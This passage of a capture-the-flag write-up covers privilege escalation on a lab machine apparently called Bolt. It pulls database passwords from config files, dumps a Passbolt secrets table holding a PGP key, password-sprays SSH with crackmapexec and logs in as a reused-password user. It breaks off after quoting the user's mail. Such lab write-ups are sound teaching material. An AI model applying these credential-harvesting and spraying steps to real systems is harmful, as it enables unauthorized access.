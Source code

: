 ## Privilege Escalation

In the file _/var/www/demo/config.py_ are credentials for a database:
```
SQLALCHEMY_DATABASE_URI = 'mysql://bolt_dba:dXUUHSW9vBpH5qRB@localhost/boltmail'
```

In the file _/var/www/roundcube/config/config.inc.php_ are credentials for the webmail service:
```
$config['db_dsnw'] = 'mysql://roundcubeuser:WXg5He2wHt4QYHuyGET@localhost/roundcube';
```

These databases don't have any interesting information, but the passwords may be useful, if some of them were reused.

According to the _/etc/nginx/sites-enabled/nginx-passbolt.conf_ file, the configuration files for the **Passbolt** service on port 443 are in _/etc/passbolt/_.
The file _passbolt_ contains credentials for the database:
```
'port' => '3306',
'username' => 'passbolt',
'password' => 'rT2;jW7<eY8!dX8}pQ8%',
'database' => 'passboltdb'
```

Enumerating the database:
```
mysql -u passbolt -p
```
```
mysql> show databases;
mysql> use passboltdb;
mysql> show tables;
mysql> select * from users
```

The table _users_ has the username for _eddie_ and _clark_, but not password hashes.
The table _secrets_ contains a **PGP** key that may be decrypted later:
```
mysql> describe secrets;
mysql> select user_id,data from secrets
```

We can try **Password Spraying** on all the found credentials of the users of the box:
```
crackmapexec ssh bolt.htb -u users.list -p passwords.list
```

The password for the **Passbolt** database is the same as for the user _eddie_ and it is possible to login via SSH:
```
ssh eddie@10.10.11.114
```

### Privilege Escalation to root

After login with _eddie_, the SSH banner shows that the user has mail, which can be found in _/var/spool/mail/eddie_:
```
Hey Eddie,

The password management server is up and running.
Go ahead and download the extension to your browser and get logged in.
Be sure to back up your private key because I CANNOT recover it.
Your private key is the only way to recover your account.
Once you're set up you can start importing your passwords.
Please be sure to keep good security in mind - there's a few things I read about in a security whitepaper that are a little concerning...

-Clark
```